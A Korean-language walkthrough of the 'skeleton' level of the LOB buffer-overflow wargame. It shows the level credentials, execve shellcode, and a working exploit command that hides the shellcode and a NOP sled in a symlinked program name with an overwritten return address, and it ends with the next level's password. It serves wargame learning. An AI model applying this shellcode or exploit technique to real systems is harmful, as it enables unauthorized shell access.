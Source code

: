 # [LOB] skeleton Write-up

![](./picture/skeleton_1.JPG)

```
login : vampire
Password : music world
```

위의 계정으로 로그인하면 접속된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/skeleton_2.JPG)

이번 문제에서는 argv를 다 초기화한다. 하지만 스택 바닥쪽에 프로그램 실행명은 초기화되지 않는다. 한 번 확인해보자.

```
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```
사용한 쉘코드는 위에 있다.

![](./picture/skeleton_3.JPG)

쉘코드+NOP(100byte)로 심볼릭 링크를 복사한 파일에 걸어주었다. 리턴주소를 이상하게 주어 core dump를 떠 분석해보았다. 

![](./picture/skeleton_4.JPG)

확인해보면 쉘코드와 NOP을 확인할 수 있다. 쉘코드의 시작 주소는 `0xbfffff67`이다. 

![](./picture/skeleton_5.JPG)
![](./picture/skeleton_6.JPG)


심볼릭 링크를 삭제하고, skeleton에 다시 걸어주었다.

```
./`python -c 'print "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*100'` `python -c 'print "\x90"*44+"\x67\xff\xff\xbf"'`
```

페이로드는 위와 같다. 심볼릭 링크로 실행시켜주었고, 프로그램 파일명이 있는 주소를 리턴주소로 넣어주었다.

![](./picture/skeleton_7.JPG)

쉘을 땄고, 비밀번호는 `shellcoder`이다.